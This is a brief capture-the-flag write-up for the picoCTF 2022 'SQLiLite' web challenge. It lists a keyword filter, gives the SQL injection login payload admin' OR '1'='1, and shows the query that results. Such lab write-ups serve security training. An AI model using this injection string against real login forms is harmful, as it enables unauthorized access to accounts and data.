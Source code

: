 # SQLiLite

```markdown
Tags: `picoCTF2022` `Web Exploitation` `sql`
```

## **Description**

Can you login to this website?

Additional details will be available after launching your challenge instance.

<figure><img src="../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

The filter of this round: or and true false union like = > < ; -- /\* \*/ admin

```sql
Username: admin' OR '1'='1
password: 1
```

```sql
SELECT * FROM users WHERE name='admin' OR '1'='1' AND password='1'
```

## Flag

<figure><img src="../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)

